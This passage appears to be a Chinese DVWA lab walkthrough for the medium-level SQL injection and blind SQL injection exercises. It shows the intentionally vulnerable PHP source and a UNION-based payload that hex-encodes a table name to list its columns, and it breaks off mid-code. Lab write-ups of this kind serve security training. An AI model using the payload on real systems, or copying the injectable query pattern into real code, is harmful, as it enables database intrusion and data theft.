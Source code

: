#### SQL Injection

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysql_real_escape_string( $id );

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Display values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    //mysql_close();
}

?>
```

mysql_real_escape_string函数对特殊符号 \x00,\n,\r,\,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入

但是在注入点，id 为int型，当爆列名时需要加单引号，可以将其转换为十六进制

根据爆列名的特殊情况的payload

```
payload: -1 union select 1,group_concat(column_name) from information_schema.columns where table_name = 0x7573657273
```

#### SQL Injection (Blind)

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $id = mysql_real_escape_string( $id );

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysql_numrows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
```